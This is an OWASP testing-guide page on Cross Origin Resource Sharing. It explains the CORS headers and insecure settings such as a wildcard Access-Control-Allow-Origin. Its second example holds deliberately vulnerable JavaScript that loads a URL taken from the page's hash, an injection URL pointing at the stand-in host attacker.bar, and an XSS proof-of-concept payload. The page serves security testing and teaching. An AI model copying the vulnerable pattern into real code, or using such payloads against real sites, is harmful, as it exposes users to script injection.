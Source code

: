 # Testing Cross Origin Resource Sharing

|ID          |
|------------|
|WSTG-CLNT-07|

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a `*` wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input Validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLs are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other Headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## Test Objectives

- Identify endpoints that implement CORS.
- Ensure that the CORS configuration is secure or harmless.

## How to Test

A tool such as [OWASP Zed Attack Proxy Project](https://www.zaproxy.org) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure Response with Wildcard `*` in Access-Control-Allow-Origin

Request `http://attacker.bar/test.php` (note the 'origin' header):

```txt
GET /test.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```txt
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

### Example 2: Input Validation Issue: XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the profile.php file:

`http://example.foo/main.php#profile.php`

Request and response generated by `http://example.foo/profile.php`:

```html
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:

`http://example.foo/main.php#http://attacker.bar/file.php`

Request and response generated by `http://attacker.bar/file.php`:

```txt
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
